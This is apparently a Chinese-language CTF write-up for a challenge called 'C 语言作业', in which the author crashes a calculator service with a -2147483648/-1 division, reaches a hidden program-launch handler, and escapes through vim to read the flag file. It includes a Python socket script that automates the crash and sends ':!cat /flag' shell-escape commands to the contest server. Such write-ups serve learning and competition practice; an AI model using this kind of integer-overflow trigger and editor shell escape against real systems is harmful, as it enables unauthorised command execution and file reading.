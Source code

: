 [返回](./README.md)

## 0x14 "C 语言作业"

下载 calc，这个肯定是反编译了。打开 IDA 发现 main 函数十分正常，各种输入也安全。

![Snipaste_2018-10-14_00-09-56.png](./images/93953137.png)

看函数列表发现有个 `__init` ，于是点进去看了，发现注册了一系列信号触发事件，触发的是 `__err` ，这个函数是这样的。

![Snipaste_2018-10-14_00-12-13.png](./images/4276237654.png)

触发事件很简单，只要让计算崩溃就好了。于是我选择了 `-2147483648/-1` 。

![Snipaste_2018-10-14_00-19-53.png](./images/2533851744.png)

嗯……这里提供了一个运行外部程序的功能，但是 `sh` 被屏蔽了，而且用了 `execlp` 所以不能传参数，也没有可以缓冲区溢出的漏洞。于是中午我试了一下 `vi` `emacs` 等编辑器，发现它们都不存在。于是一时解题陷入了僵局。

于是我的一整个下午和晚上都在各种查资料各种测试，尝试从 `calc` 层面搞定（没有切入点，这当然是徒劳的）。

直到我洗完澡后不死心又试了一个 `vim` ……

居然还真有……

我tm浪费了大半天的时间，就因为我中午偷懒了没试 `vim` 存不存在？？？

行吧栽在了自己手里。

现在手速有点不够用了，于是我拿出了 py。

```python
from socket import *
tcpClient=socket(AF_INET,SOCK_STREAM)
tcpClient.connect(("202.38.95.46",12008))

while True:
	data=tcpClient.recv(1024)
	if len(data) is 0:
		exit()
	data=data.decode(encoding="ascii") 
	print data
	try:
		if 'flag{' in data:
			exit()
		if ">>>" in data:
			tcpClient.send("-2147483648/-1\n".encode(encoding="ascii"))
		if "examine" in data:
			tcpClient.send("vim\n".encode(encoding="ascii"))
			tcpClient.send(":!cat /flag\n".encode(encoding="ascii"))
			tcpClient.send(":!cat /flag\n".encode(encoding="ascii"))
			tcpClient.send(":!cat /flag\n".encode(encoding="ascii"))
			
	except Exception as e:
		pass

tcpClient.close()
```

然后通过 vim 里敲的 `:!cat /flag` ，这坑爹玩意儿居然说 `The real flag is in the file "-"` ！

行吧，把 `/flag` 改成 `/-` 再来一次。解决。

![Snipaste_2018-10-14_00-21-02.png](./images/441423199.png)

*看了官方题解后：我居然没意识到进入 vim 以后就没有 5s 的时限了！*
